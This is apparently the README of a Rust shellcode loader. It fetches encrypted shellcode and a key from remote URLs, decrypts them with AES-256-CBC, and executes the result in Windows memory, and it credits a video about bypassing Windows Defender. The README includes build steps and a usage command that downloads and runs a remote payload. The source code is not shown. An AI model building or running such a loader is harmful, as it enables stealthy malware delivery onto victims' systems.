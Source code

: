 # AES-256-CBC Shellcode Decryptor and Executor in Rust

This Rust application fetches encrypted shellcode and an encryption key from provided URLs, decrypts the shellcode using AES-256-CBC, and executes it in memory on Windows systems. It utilizes PBKDF2-inspired concepts and Windows API calls for memory allocation and execution. This project was inspired by foundational knowledge from *["Gemini Cyber Security’s"](https://www.youtube.com/@gemini_security)* video *["Getting Started with Rust - Bypass Windows Defender"](https://www.youtube.com/watch?v=o8af1KeMrRc&t=95s)*.

> **Note:** This tool is intended for educational and security research purposes only. Use responsibly and in compliance with applicable laws.

## Features
- **AES-256-CBC Decryption**: Decrypts shellcode using the AES-256 algorithm in CBC mode.
- **Remote File Fetching**: Retrieves encrypted shellcode and keys from HTTP URLs using `reqwest`.
- **In-Memory Execution**: Allocates memory and executes decrypted shellcode via Windows API calls (`VirtualAlloc`, `VirtualProtect`, `CreateThread`).
- **Zero-Initialized IV**: Uses a static IV for simplicity (not recommended for production use).

## Prerequisites
### 1. Rust Installation
Ensure Rust is installed. If needed, install it via Rustup:

```sh
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```

### 2. Windows OS
This project utilizes Windows-specific APIs (`windows-sys`) and is not compatible with other operating systems.

### 3. Internet Access
Required to fetch encrypted shellcode and key from provided URLs.

## Building the Project
### 1. Clone the Repository
```sh
git clone <repository_url>
cd <repository_name>
```

### 2. Install Dependencies
Ensure your `Cargo.toml` includes the following dependencies:

```toml
[dependencies]
aes = "0.8"
block-modes = "0.8"
pbkdf2 = "0.12"
sha2 = "0.10"
hex = "0.4"
hmac = "0.12"
reqwest = { version = "0.11", features = ["blocking"] }
windows-sys = { version = "0.52", features = ["Win32_Foundation", "Win32_System_Memory", "Win32_System_Threading"] }
```

Then, build the project in release mode:

```sh
cargo build --release
```

The compiled binary will be located in the `target/release` directory.

## Usage
Run the application with the following command, providing URLs to the encrypted shellcode and the encryption key:

```sh
./target/release/rust -exec <shellcode_url> <key_url>
```

### Example:
```sh
./target/release/rust -exec http://example.com/encrypted_shellcode http://example.com/key
```

This will:
1. Fetch the encrypted shellcode and key from the specified URLs.
2. Decrypt the shellcode using AES-256-CBC with a zero-initialized IV.
3. Allocate executable memory, copy the decrypted shellcode, and execute it as a new thread.

If successful, the program will output:
```
Decryption and execution succeeded.
```

## Security Considerations
- **Static IV**: The IV is set to zero, which compromises security by making the encryption predictable. For real-world use, a cryptographically secure random IV should be used.
- **Key Management**: The key is fetched remotely but not validated. Ensure the key source is trusted and secure.
- **Shellcode Execution**: Executing arbitrary code in memory can be dangerous and should only be done in controlled environments.
- **Error Handling**: Basic error reporting is implemented, but robust error handling should be added for production use.

## Credits
This project was inspired by *[Gemini Cyber Security](https://www.youtube.com/@gemini_security)* and their video *"Getting Started with Rust - Bypass Windows Defender"*. Special thanks to them for their educational content that helped guide this development.

## License
This project is licensed under the **MIT License**. See the `LICENSE` file for details.

## Disclaimer
This tool is for educational and research purposes only. The author is not responsible for any misuse or damage caused by this software. Use it at your own risk and ensure compliance with all relevant laws and regulations.

